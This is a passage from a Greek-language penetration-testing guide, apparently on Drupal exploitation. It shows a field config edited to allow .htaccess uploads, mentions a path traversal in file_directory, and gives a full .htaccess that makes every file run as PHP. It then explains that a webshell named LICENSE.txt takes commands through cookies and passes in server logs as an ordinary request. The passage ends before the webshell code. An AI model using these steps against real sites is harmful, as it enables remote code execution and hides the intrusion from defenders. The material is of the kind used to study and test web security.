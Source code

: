 Για:

Αρχείο: field.field.media.document.field\_media\_document.yml
```
...

file_directory: '[date:custom:Y]-[date:custom:m]'
file_extensions: 'htaccess txt rtf doc docx ppt pptx xls xlsx pdf odf odg odp ods odt fodt fods fodp fodg key numbers pages'

...

```
> Δεν το χρησιμοποιώ σε αυτή την ανάρτηση, αλλά σημειώνεται ότι είναι δυνατόν να οριστεί η είσοδος `file_directory` με αυθαίρετο τρόπο και ότι είναι ευάλωτη σε επίθεση διαδρομής (path traversal) (έτσι μπορούμε να επιστρέψουμε μέσα στο δέντρο συστήματος αρχείων του Drupal).

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Μέρος 3 (εκμετάλλευση της δυνατότητας _Προσθήκη Εγγράφου_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

Το τελευταίο βήμα είναι το πιο απλό και χωρίζεται σε δύο υποβήματα. Το πρώτο είναι να ανεβάσουμε ένα αρχείο σε μορφή .htaccess για να εκμεταλλευτούμε τις οδηγίες του Apache και να επιτρέψουμε στα αρχεία .txt να ερμηνεύονται από τη μηχανή PHP. Το δεύτερο είναι να ανεβάσουμε ένα αρχείο .txt που περιέχει το payload μας.

Αρχείο: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
Γιατί είναι αυτό το κόλπο ωραίο;

Επειδή μόλις το Webshell (που θα ονομάσουμε LICENSE.txt) τοποθετηθεί στον Web server, μπορούμε να μεταδώσουμε τις εντολές μας μέσω `$_COOKIE` και στα logs του Web server, αυτό θα εμφανιστεί ως ένα νόμιμο GET αίτημα σε ένα αρχείο κειμένου.

Γιατί να ονομάσουμε το Webshell μας LICENSE.txt;
